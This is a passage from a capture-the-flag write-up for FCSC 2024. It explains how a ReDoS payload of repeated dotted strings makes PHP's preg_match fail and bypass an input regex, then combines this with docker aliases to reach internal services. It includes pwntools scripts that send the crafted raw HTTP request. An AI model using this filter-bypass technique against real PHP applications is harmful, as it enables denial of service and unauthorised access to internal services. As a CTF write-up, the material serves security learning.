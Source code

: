 ```python
Upgrade-Insecure-Requests: 1\r
\r
\r
'''[1:-1].encode())

result = io.recvall(timeout=30)
print(result.decode())
```

## First vulnerability on frontend.fcsc2024.fr

The first thing that intrigued me was the use of this regex: ``"/[^a-z\.]|((.{10,})+\.)+$|[a-z]{10,}/"``, in theory, this forces the user to enter:  
- A character string with the letters ``abcdefghijklmnopqrstuvwxyz.``.  
- A character string up to 9 characters long.   

However, it is possible to provoke a ReDoS *(Regular expression Denial of Service)* attack by sending a large succession of ``.`` . So by sending a string of characters of the form ``voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec`` the ``preg_match`` function will crash.  
Finally, the default error result is *false*, allowing you to bypass these checks.  

By combining docker aliases with redos, it's possible to query the application's internal services.  

Our operating code can be updated:  
```python
from pwn import *
from urllib.parse import quote_plus as urlenc

context.log_level = 'critical'

io = remote('localhost', 8000, ssl=False)

redos = urlenc('?a='+'.'.join('voz.ec' for _ in range(30)))
payload =f'''
/?game=pong-frontend{redos}
'''[1:-1]

io.send(f'''
GET {payload} HTTP/1.1\r
Host: localhost:8000\r
Connection: close\r
Upgrade-Insecure-Requests: 1\r
\r
\r
'''[1:-1].encode())

result = io.recvall(timeout=30)
print(str(result)[2:-1].replace('\\n','\n'))
```

## Bypass REMOTE_ADDR


[//]: <> (Wrote By Vozec 12/04/2024)